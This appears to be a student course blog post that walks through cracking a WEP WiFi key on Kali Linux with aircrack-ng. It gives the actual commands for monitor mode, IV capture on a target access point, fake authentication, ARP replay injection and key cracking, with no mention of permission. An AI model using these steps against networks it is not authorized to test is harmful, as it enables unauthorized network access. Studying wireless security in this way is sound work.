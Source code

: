 ```yaml
---
layout: post
title: "Blog 9"
description: "CIT 480 blog 9"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/8/
---
```


How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

* Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.
* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

#To check if adapter is present
* iwconfig
#To put WiFi Adapter in monitor mode.
* airmon-ng start wlan0
#If processes are present then kill the processes.
* airmon-ng check kill
#Run Again
* airmon-ng start wlan0
#Confirm WiFi Adapter is in Monitor Mode
* iwconfig

__Step 3: Scan Network__

#Find your target
* Airodump-ng wlan0
#Copy BSSID of Target AP
#Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

#WiFi Adapter needs to be associated with AP to be able to inject packets later. 
* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__
#Collect enough IVs
* Open New Terminal
* aircrack-ng <file_name.cap>
































